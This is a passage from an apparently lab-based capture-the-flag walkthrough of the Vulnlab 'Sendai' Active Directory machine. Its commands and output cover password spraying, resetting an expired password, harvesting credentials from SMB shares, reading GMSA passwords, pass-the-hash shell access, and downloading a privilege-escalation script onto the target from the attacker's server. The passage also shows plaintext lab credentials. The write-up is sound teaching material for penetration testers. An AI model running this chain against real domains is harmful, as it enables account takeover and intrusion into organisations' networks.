SMB         10.10.100.198   445    DC               [-] sendai.vl\Norman.Baxter:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Jason.Brady:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Malcolm.Smith:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Ross.Sullivan:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Declan.Jenkins:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Lawrence.Grant:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Leslie.Johnson:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Megan.Edwards:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\mgtsvc$:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\anthony.smith:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\clifford.davey:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\elliot.yates:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\lisa.williams:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\susan.harper:Sendai2023 STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\thomas.powell:Sendai2023 STATUS_LOGON_FAILURE
```

With the newly found `password` we `password sprayed` against the box and fortunately for us, the user `Susan.Harper` still had the `STATUS_PASSWORD_MUST_CHANGE` flag set.

## Password Reset

We `reset` the password for `Susan.Harper` using `smbpasswd`.

```c
┌──(kali㉿kali)-[~]
└─$ smbpasswd -r sendai.vl -U 'Susan.Harper'
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Susan.Harper
```

| Password    |
| ----------- |
| foobar1234! |

## Authenticated SMB Enumeration

Now with valid credentials for `Susan.Harper` we head back to `SMB` and proceed enumeration.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.100.198 -u 'Susan.Harper' -p 'foobar1234!' --shares
SMB         10.10.100.198   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.198   445    DC               [+] sendai.vl\Susan.Harper:foobar1234! 
SMB         10.10.100.198   445    DC               [*] Enumerated shares
SMB         10.10.100.198   445    DC               Share           Permissions     Remark
SMB         10.10.100.198   445    DC               -----           -----------     ------
SMB         10.10.100.198   445    DC               ADMIN$                          Remote Admin
SMB         10.10.100.198   445    DC               C$                              Default share
SMB         10.10.100.198   445    DC               config          READ,WRITE      
SMB         10.10.100.198   445    DC               IPC$            READ            Remote IPC
SMB         10.10.100.198   445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.100.198   445    DC               sendai          READ,WRITE      company share
SMB         10.10.100.198   445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.100.198   445    DC               Users           READ
```

Now we were in the situation to read the `config` directory on the `SMB` share. In it we found a file called `.sqlconfig` which contained a `username` and a `password` to access the `database`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ smbclient //10.10.100.198/config -U 'Susan.Harper'
Password for [WORKGROUP\Susan.Harper]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 14:24:41 2024
  ..                                DHS        0  Wed Jul 19 10:11:25 2023
  .sqlconfig                          A       78  Tue Jul 11 08:57:11 2023

                7309822 blocks of size 4096. 779727 blocks available
```

```c
smb: \> get .sqlconfig 
getting file \.sqlconfig of size 78 as .sqlconfig (2.7 KiloBytes/sec) (average 2.7 KiloBytes/sec)
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ cat cat .sqlconfig 
cat: cat: No such file or directory
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;
```

| Password       |
| -------------- |
| SurenessBlob85 |

## Active Directory Certificate Services (AD CS)

The `adcs` module of `NetExec` revealed that `Active Directory Certificate Services (AD CS)` was configured on the box.

```c
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.10.100.198 -u 'Susan.Harper' -p 'foobar1234!' -M adcs 
SMB         10.10.100.198   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.100.198   389    DC               [+] sendai.vl\Susan.Harper:foobar1234! 
ADCS        10.10.100.198   389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS                                                Found PKI Enrollment Server: dc.sendai.vl
ADCS                                                Found CN: sendai-DC-CA
ADCS                                                Found PKI Enrollment WebService: https://dc.sendai.vl/sendai-DC-CA_CES_Kerberos/service.svc/CES
```

But the `current credentials` we were `not able` to find a `vulnerable template`.

```c
┌──(kali㉿kali)-[~]
└─$ certipy-ad find -dc-ip 10.10.100.198 -u 'Susan.Harper' -p 'foobar1234!' -vulnerable -stdout 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sendai-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sendai-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sendai-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sendai-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sendai-DC-CA
    DNS Name                            : dc.sendai.vl
    Certificate Subject                 : CN=sendai-DC-CA, DC=sendai, DC=vl
    Certificate Serial Number           : 326E51327366FC954831ECD5C04423BE
    Certificate Validity Start          : 2023-07-11 09:19:29+00:00
    Certificate Validity End            : 2123-07-11 09:29:29+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SENDAI.VL\Administrators
      Access Rights
        ManageCertificates              : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        ManageCa                        : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        Enroll                          : SENDAI.VL\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```

## Active Directory Enumeration

Next steps was to `dump` the `configuration` of the `Active Directory` using `BloodHound`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ bloodhound-python -u 'sqlsvc' -p 'SurenessBlob85' -d 'sendai.vl' -ns 10.10.100.198 --dns-tcp -no-pass -c ALL --zip
INFO: Found AD domain: sendai.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 27 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.sendai.vl
INFO: Done in 00M 06S
INFO: Compressing output into 20240314143755_bloodhound.zip
```

The dump provided us the information that `Susan.Harper` was member of the groups `SUPPORT@SENDAI.VL` and `STAFF@SENDAI.VL`.



A look into the output of `ADMiner` to gain additional information about potentially vulnerable users and groups.



From this point on the path for `privilege escalation` was pretty clear. The `GenericAll` permission on the `ADMSVC@SENDAI.VL` group which then would lead to `MGTSVC$@SENDAI.VL` by reading `Group Managed Service Accounts (GSMA)` passwords, made us capable of using `CanPSRemote` permissions to access the box.



## Foothold

### Group Managed Service Accounts (GMSA)

First we needed to add `Susan.Harper` to the `ADMSVC@SENDAI.VL` group.

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD]
└─$ bloodyAD -u 'susan.harper' -d 'sendai.vl' -p 'foobar1234!' --host 'dc.sendai.vl' add groupMember 'admsvc' 'susan.harper'
[+] susan.harper added to admsvc
```

Next we used the `gmsa` module to read the `Group Managed Service Accounts (GSMA)` passwords.

```c
┌──(kali㉿kali)-[~]
└─$ netexec ldap sendai.vl -u 'Susan.Harper'  -p 'foobar1234!' --gmsa    
SMB         10.10.100.198   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.100.198   636    DC               [+] sendai.vl\Susan.Harper:foobar1234! 
LDAP        10.10.100.198   636    DC               [*] Getting GMSA Passwords
LDAP        10.10.100.198   636    DC               Account: mgtsvc$              NTLM: <REDACTED>
```

### Pass-The-Hash

Using the `NTLM` hash granted us a shell on the box and also the `user.txt`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ evil-winrm -i sendai.vl -u 'mgtsvc$' -H <REDACTED>

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\> type user.txt
VL{REDACTED}
```

## Enumeration

After getting foothold on the box, we started with some basic enumeration which didn't show us any important things.

```c
*Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ============================================
sendai\mgtsvc$ S-1-5-21-3085872742-570972823-736764132-1130


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
SENDAI\Domain Computers                     Group            S-1-5-21-3085872742-570972823-736764132-515 Mandatory group, Enabled by default, Enabled group
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### PrivescCheck

We dropped `PrivescCheck` and gave it a try.

- [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/serve]
└─$ wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
--2024-03-14 15:16:03--  https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 165504 (162K) [text/plain]
Saving to: ‘PrivescCheck.ps1’

PrivescCheck.ps1                                           100%[========================================================================================================================================>] 161.62K  --.-KB/s    in 0.02s   

2024-03-14 15:16:04 (9.66 MB/s) - ‘PrivescCheck.ps1’ saved [165504/165504]
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```c
*Evil-WinRM* PS C:\temp> iwr 10.8.0.2/PrivescCheck.ps1 -o PrivescCheck.ps1
```

And it was successful indeed because it gathered some new credentials.

```c
*Evil-WinRM* PS C:\temp> . .\PrivescCheck.ps1; Invoke-PrivescCheck
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0043 - Reconnaissance                           ┃
┃ NAME     ┃ User identity                                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about the current user (name, domain name)   ┃
┃ and its access token (SID, integrity level, authentication   ┃
┃ ID).                                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational


Name             : SENDAI\mgtsvc$
SID              : S-1-5-21-3085872742-570972823-736764132-1130
IntegrityLevel   : Medium Plus Mandatory Level (S-1-16-8448)
SessionId        : 0
TokenId          : 00000000-00bfd4cd
AuthenticationId : 00000000-00be04ed
OriginId         : 00000000-00000000
ModifiedId       : 00000000-00be04f4
Source           : NtLmSsp (00000000-00000000)


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0043 - Reconnaissance                           ┃
┃ NAME     ┃ User groups                                       ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about the groups the current user belongs to ┃
┃ (name, type, SID).                                           ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational

Name                                        Type           SID
----                                        ----           ---
SENDAI\Domain Computers                     Group          S-1-5-21-3085872742-570972823-736764132-515
Everyone                                    WellKnownGroup S-1-1-0
BUILTIN\Remote Management Users             Alias          S-1-5-32-580
BUILTIN\Pre-Windows 2000 Compatible Access  Alias          S-1-5-32-554
BUILTIN\Users                               Alias          S-1-5-32-545
BUILTIN\Certificate Service DCOM Access     Alias          S-1-5-32-574
NT AUTHORITY\NETWORK                        WellKnownGroup S-1-5-2
NT AUTHORITY\Authenticated Users            WellKnownGroup S-1-5-11
NT AUTHORITY\This Organization              WellKnownGroup S-1-5-15
NT AUTHORITY\NTLM Authentication            WellKnownGroup S-1-5-64-10
Mandatory Label\Medium Plus Mandatory Level Label          S-1-16-8448


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ User privileges                                   ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has privileges (e.g.,         ┃
┃ SeImpersonatePrivilege) that can be leveraged for privilege  ┃
┃ escalation to SYSTEM.                                        ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)

Name                          State   Description                    Exploitable
----                          -----   -----------                    -----------
SeMachineAccountPrivilege     Enabled Add workstations to domain           False
SeChangeNotifyPrivilege       Enabled Bypass traverse checking             False
SeIncreaseWorkingSetPrivilege Enabled Increase a process working set       False


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ User environment variables                        ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether any environment variables contain sensitive    ┃
┃ information such as credentials or secrets. Note that this   ┃
┃ check follows a keyword-based approach and thus might not be ┃
┃ completely reliable.                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (nothing found)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Non-default services                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about third-party services. It does so by    ┃
┃ parsing the target executable's metadata and checking        ┃
┃ whether the publisher is Microsoft.                          ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational


Name        : Amazon EC2Launch
DisplayName : Amazon EC2Launch
ImagePath   : "C:\Program Files\Amazon\EC2Launch\service\EC2LaunchService.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : AmazonSSMAgent
DisplayName : Amazon SSM Agent
ImagePath   : "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : AWSLiteAgent
DisplayName : AWS Lite Guest Agent
ImagePath   : "C:\Program Files\Amazon\XenTools\LiteAgent.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : MSSQL$SQLEXPRESS
DisplayName : SQL Server (SQLEXPRESS)
ImagePath   : "C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlservr.exe" -sSQLEXPRESS
User        : SENDAI\sqlsvc
StartMode   : Automatic

Name        : PsShutdownSvc
DisplayName : PsShutdown
ImagePath   : C:\Windows\PSSDNSVC.EXE
User        : LocalSystem
StartMode   : Manual

Name        : SQLAgent$SQLEXPRESS
DisplayName : SQL Server Agent (SQLEXPRESS)
ImagePath   : "C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\SQLAGENT.EXE" -i SQLEXPRESS
User        : NT AUTHORITY\NETWORKSERVICE
StartMode   : Disabled

Name        : SQLBrowser
DisplayName : SQL Server Browser
ImagePath   : "C:\Program Files (x86)\Microsoft SQL Server\90\Shared\sqlbrowser.exe"
User        : NT AUTHORITY\LOCALSERVICE
StartMode   : Disabled

Name        : SQLTELEMETRY$SQLEXPRESS
DisplayName : SQL Server CEIP service (SQLEXPRESS)
ImagePath   : "C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlceip.exe" -Service SQLEXPRESS
User        : NT Service\SQLTELEMETRY$SQLEXPRESS
StartMode   : Automatic

Name        : SQLWriter
DisplayName : SQL Server VSS Writer
ImagePath   : "C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : ssh-agent
DisplayName : OpenSSH Authentication Agent
ImagePath   : C:\Windows\System32\OpenSSH\ssh-agent.exe
User        : LocalSystem
StartMode   : Disabled

Name        : Support
DisplayName :
ImagePath   : C:\WINDOWS\helpdesk.exe -u clifford.davey -p RFmoB2WplgE_3p -k netsvcs
User        : LocalSystem
StartMode   : Automatic

Name        : VGAuthService
DisplayName : VMware Alias Manager and Ticket Service
ImagePath   : "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : vm3dservice
DisplayName : @oem8.inf,%VM3DSERVICE_DISPLAYNAME%;VMware SVGA Helper Service
ImagePath   : C:\Windows\system32\vm3dservice.exe
User        : LocalSystem
StartMode   : Automatic

Name        : VMTools
DisplayName : VMware Tools
ImagePath   : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
User        : LocalSystem
StartMode   : Automatic


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Vulnerable Kernel drivers                         ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether known vulnerable kernel drivers are installed. ┃
┃ It does so by computing the file hash of each driver and     ┃
┃ comparing the value against the list provided by             ┃
┃ loldrivers.io.                                               ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
Warning: Service: vwifibus | Path not found: C:\Windows\System32\drivers\vwifibus.sys
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service permissions                               ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a service through the Service Control Manager (SCM).         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service registry permissions                      ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ the configuration of a service in the registry.              ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service binary permissions                        ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a service's binary or its folder.                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service unquoted paths                            ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are services configured with an          ┃
┃ exploitable unquoted path that contains spaces.              ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service Control Manager permissions               ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ the Service Control Manager (SCM).                           ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Hive file permissions                             ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has read permissions on the   ┃
┃ SAM/SYSTEM/SECURITY files in the system folder               ┃
┃ (CVE-2021-36934 - HiveNightmare).                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Hive file shadow copy permissions                 ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has read permissions on the   ┃
┃ SAM/SYSTEM/SECURITY files stored in volume shadow copies     ┃
┃ (CVE-2021-36934 - HiveNightmare).                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Unattend file credentials                         ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are any 'unattend' files and whether     ┃
┃ they contain clear-text credentials.                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ WinLogon credentials                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the 'WinLogon' registry key contains           ┃
┃ clear-text credentials. Note that entries with an empty      ┃
┃ password field are filtered out.                             ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ GPP passwords                                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are cached Group Policy Preference (GPP) ┃
┃ files that contain clear-text passwords.                     ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ SCCM Network Access Account (NAA)                 ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether SCCM NAA credentials are stored in the WMI     ┃
┃ repository. If so, the username and password DPAPI blobs are ┃
┃ returned, but can only be decrypted using the SYSTEM's DPAPI ┃
┃ user key.                                                    ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0008 - Lateral Movement                         ┃
┃ NAME     ┃ UAC settings                                      ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether User Access Control (UAC) is enabled and       ┃
┃ whether it filters the access token of local administrator   ┃
┃ accounts when they authenticate remotely.                    ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - Low


Key         : HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
Value       : EnableLUA
Data        : 1
Vulnerable  : False
Description : UAC is enabled.

